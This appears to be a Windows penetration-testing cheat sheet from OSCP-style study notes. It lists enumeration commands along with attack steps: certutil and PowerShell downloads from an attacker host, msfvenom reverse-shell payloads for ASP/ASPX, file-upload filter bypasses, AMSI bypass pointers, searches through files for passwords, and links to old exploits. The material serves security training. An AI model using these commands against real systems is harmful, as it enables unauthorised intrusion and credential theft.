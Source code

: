 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
# try filename "rev.aspx..... .. . . ."
# try filename "rev.aspx.png"
# try web.config (File_Upload_Bypass.md)
# Additional reference: https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

find specific files

```cmd
REM command prompt
dir /s C:\Folder\*.txt
```

```powershell
# powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf","*.ini" | Select-String -Pattern pass
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Task Scheduler(taskschd.msc)

```
schtasks /query /fo LIST /v
```

Powershell [Get-ScheduledTask Script](https://github.com/tedchen0001/OSCP-Notes/blob/master/Write_Scripts/ScheduledTask.ps1)

convert to command line, replace `\r\n` to `empty string` and `"` to `\"`

```cmd
powershell -command "$ScheduledTasks = Get-ScheduledTask | Where-Object {$_.TaskPath -notlike \"\Microsoft*\" -and $_.TaskName -notlike \"*TEST*\"};foreach ($item in $ScheduledTasks) {    [string]$Name       = ($item.TaskName);    [string]$Action     = ($item.Actions | Select-Object -ExpandProperty Execute);    [datetime]$Start    = ($item.Triggers | Select-Object -ExpandProperty StartBoundary);    [string]$Repetition = ($item.Triggers.Repetition | Select-Object -ExpandProperty interval);    [string]$Duration   = ($item.Triggers.Repetition | Select-Object -ExpandProperty duration);    $splat = @{    'Name'       = $Name;    'Action'     = $Action;    'Start'      = $Start;    'Repetition' = $Repetition;    'Duration'   = $Duration;    };    $obj = New-Object -TypeName PSObject -property $splat;    $obj | Write-Output;};"
```

Powershell 2.0 (Windows 7 & Windows Server 2008 R2)

```powershell
schtasks /query /fo csv -v | ConvertFrom-Csv | ? {$_.TaskName -notlike "\Microsoft\Windows*" -and $_.TaskName -notlike "\Microsoft\Office\*" -and $_.TaskName -notlike "\Microsoft\XblGameSave\*" -and $_.TaskName -notlike "TaskName"}
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

Tools

```
PowerUp.ps1 => Invoke-AllChecks
PrivescCheck.ps1 => Invoke-PrivescCheck, Invoke-PrivescCheck -Extended
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
https://lolbas-project.github.io/#
```